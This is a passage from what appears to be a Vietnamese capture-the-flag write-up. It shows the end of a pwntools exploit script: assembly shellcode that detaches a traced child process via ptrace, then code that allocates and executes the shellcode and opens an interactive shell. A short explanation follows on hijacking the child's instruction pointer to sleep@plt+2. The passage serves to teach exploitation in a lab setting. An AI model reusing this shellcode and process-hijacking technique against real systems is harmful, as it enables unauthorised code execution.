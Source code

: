 ```python 
loop l1
mov rdi, {PTRACE_DETACH}
mov rsi, {child_pid}
mov rdx,0
mov r10,0
mov rax,0x65
syscall
l:
	nop
jmp l
		""")
code_ = create(len(shellcode)+8,7,shellcode)
log.success(f"{hex(code_)}")
sleep(2)
exec_(code_)
sleep(5)
p.interactive()
```

Ở đây trước khi commit PTRACE_SETREGS cho process con, mình gửi signal stop cho chắc ăn.

Nếu để ý bạn sẽ thấy mình ghi đè $rip = `sleep@plt + 2 `thay vì `sleep@plt` , mình sẽ không đi sâu giải thích ( gợi ý là `sleep@plt + 4` thì mới có opcode jmp tới got và độ dài opcode của `syscall` là 2 bytes ).

![image](https://github.com/robbert1978/robbert1978.github.io/assets/31349426/72846272-82b7-42ef-8c6e-2a5e9a9b7816)

